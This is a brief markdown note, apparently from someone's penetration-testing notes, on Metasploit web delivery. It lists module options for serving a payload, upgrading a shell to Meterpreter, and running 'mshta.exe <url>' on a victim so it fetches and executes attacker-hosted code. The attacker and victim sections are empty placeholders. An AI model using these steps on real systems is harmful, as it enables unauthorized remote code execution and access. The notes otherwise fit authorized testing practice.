


# Web Delivery

## Metasploit modules:

- multi/script/web_delivery : serves webpage with payload to run on target machine.
	- set target PSH\ (Binary)
	- set PSH-EncodedCommand false
	- get admin creds, if you can (run PrivescCheck in cmd)
	- once a cmd shell is obtained, run shell_to_meterpreter module 
	- set WIN_TRANSFER VBS (in shell_to_meterpreter)
- exploit/windows/misc/hta_server
	- in victim cmd session, execute the generated url with the cmd -
	- mshta.exe <url>
    
    On Attacker system - 
    
    

    On victim system -
    
    
